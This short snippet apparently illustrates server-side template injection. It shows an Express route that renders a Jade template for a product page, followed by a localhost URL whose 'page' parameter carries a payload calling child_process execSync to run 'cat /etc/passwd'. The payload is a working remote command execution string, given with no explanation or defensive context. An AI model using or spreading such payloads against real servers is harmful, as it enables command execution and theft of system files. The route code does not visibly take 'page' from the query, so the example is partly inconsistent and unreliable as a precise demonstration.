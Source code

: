 source code:

```
app.get('/product/:id', function(req, res) {
    var productId = req.params.id;
    var product = getProductById(productId);

    var source = `
        html
            body
                h1= page
                h2= product.name
                p= product.description
                p Price: #{product.price}
    `;

    var template = jade.compile(source);
    var context = {
        product: product,
        page: 'Product Detail'
    };
    var html = template(context);

    res.send(html);
});
```

```http://localhost:6000/product/1?page=!process.mainModule.require('child_process').execSync('cat /etc/passwd')!```
